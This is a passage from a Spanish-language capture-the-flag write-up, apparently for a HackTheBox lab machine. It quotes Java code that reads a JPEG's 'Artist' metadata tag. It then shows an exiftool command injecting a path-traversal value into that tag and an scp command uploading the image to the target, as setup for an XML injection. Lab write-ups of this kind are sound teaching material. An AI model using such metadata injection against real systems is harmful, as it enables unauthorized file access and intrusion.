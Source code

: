 El App.java esta manejado la metadata,  podemos inyectar e

n el campo "Artist", una ruta donde estará el xml, esto en 

una imagen cualquiera que despues subiremos a la máquina.

***

```java
public static String getArtist(String uri) throws IOException, JpegProcessingException
{
    String fullpath = "/opt/panda_search/src/main/resources/static" + uri;
    File jpgFile = new File(fullpath);
    Metadata metadata = JpegMetadataReader.readMetadata(jpgFile);
    for(Directory dir : metadata.getDirectories())
    {
        for(Tag tag : dir.getTags())
        {
            if(tag.getTagName() == "Artist")
            {
                return tag.getDescription();
            }
        }
    }

    return "N/A";
}
```

***

Para esto nos deacargamos cuallquier imagen y le injectamos la ruta.


![list](/assets/img/redpanda/Kali-2022-09-02-02-04-52.png){:.lead width="800" height="100" loading="lazy"}


```bash
exiftool -Artist="../home/woodenk/test" images.jpeg
```

![list](/assets/img/redpanda/Kali-2022-09-02-02-06-13.png){:.lead width="800" height="100" loading="lazy"}


```bash
scp images.jpeg woodenk@10.10.11.170:.
```
Esto podemos hacerlo con cualquier tipo de tranferencia de acrchivos.
{:.note}
